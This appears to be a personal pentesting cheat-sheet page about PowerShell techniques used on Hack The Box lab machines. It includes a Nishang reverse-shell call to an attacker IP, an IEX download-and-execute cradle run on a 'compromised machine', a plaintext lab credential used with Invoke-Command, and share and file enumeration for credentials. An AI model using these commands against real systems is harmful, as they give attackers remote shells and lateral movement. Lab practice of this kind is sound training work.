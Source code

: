 ```yaml
---
description: >-
  Powershell Modules
title: Powershell Modules              # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Modules]                     # Change Templates to Writeup
tags: [file transfer, powershell modules]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Nishang
If we want to add a .ps1 file into a Windows machine such as the [Nishang](https://github.com/samratashok/nishang) series we can modify the latest line of such file (to load the script and then execute it):
```powershell
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
```
Then we can execute it by using the following command on the compromised machine:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```
Examples:
[[Anubis#^bcdb9e]]

### Invoke-Command
Module to execute commands on the specified machine:
```powershell
PS> $Password = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
PS> $Creds = New-Object System.Management.Automation.PSCredential('timelapse.htb\svc_deploy', $Password)
*PS> Invoke-Command -ComputerName dc01 -Credential $Creds -ScriptBlock { whoami }
```
Examples:
[[Fulcrum#^0145f0]]

### Get-SMBShare
Retrieves the local shares:
```powershell
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```
Examples:
[[Fulcrum#^cae2ef]]

### Select-String
Search files on the system
```powershell
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern Administrator
PS X:\fulcrum.local\scripts> Select-String -Path "X:\fulcrum.local\scripts\*.ps1" -Pattern 923a
```
Example:
[[Fulcrum#^08db04]]
### AD CS
TODO
[[Anubis]]

### Invoke-PowerShellTCP
TODO
[[Anubis]]

